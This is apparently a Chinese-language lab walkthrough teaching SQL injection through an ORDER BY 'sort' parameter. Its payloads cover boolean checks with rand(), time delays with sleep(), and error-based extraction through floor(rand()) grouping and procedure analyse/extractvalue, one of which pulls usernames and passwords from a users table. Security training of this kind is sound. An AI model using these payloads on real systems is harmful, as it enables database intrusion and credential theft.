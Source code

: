order by 不同于 where 后的注入点，不能使用 union 等进行注入。注入方式十分灵活，下面在本关来详细讲解一下。



升降序验证

?sort=1 asc

?sort=1 desc

结果不相同

<img src="https://raw.githubusercontent.com/heriachen/cloudimg/main/img/image-20201112154645816.png" alt="image-20201112154645816" style="zoom:50%;" />

<img src="https://raw.githubusercontent.com/heriachen/cloudimg/main/img/image-20201112154605416.png" alt="image-20201112154605416" style="zoom:50%;" />



rand()验证

rand(ture) 和 rand(false) 的结果是不一样的

```payload
?sort=rand(true)
?sort=rand(false)
```

<img src="https://raw.githubusercontent.com/heriachen/cloudimg/main/img/image-20201112154848079.png" alt="image-20201112154848079" style="zoom:50%;" />

<img src="https://raw.githubusercontent.com/heriachen/cloudimg/main/img/image-20201112154914884.png" alt="image-20201112154914884" style="zoom:50%;" />

延时验证

Payload

```payload
?sort=sleep(1)
?sort=(sleep(1))
?sort=1 and sleep(1)
```

这种方式均可以延时，延时的时间为 (行数*1) 秒



报错注入

?sort=(select count(*) from information_schema.columns group by concat(0x3a,0x3a,(select user()),0x3a,0x3a,floor(rand()*2)))

![image-20201112155236033](https://raw.githubusercontent.com/heriachen/cloudimg/main/img/image-20201112155236033.png)



?sort=1 procedure analyse(extractvalue(rand(),concat(0x3a,version())),1)

```payload
?sort=1 procedure analyse(extractvalue(rand(),concat(0x3a,(SELECT+CONCAT_WS(':',username,password)+FROM+users limit 0,1))),1)
```

![image-20201112155447767](https://raw.githubusercontent.com/heriachen/cloudimg/main/img/image-20201112155447767.png)
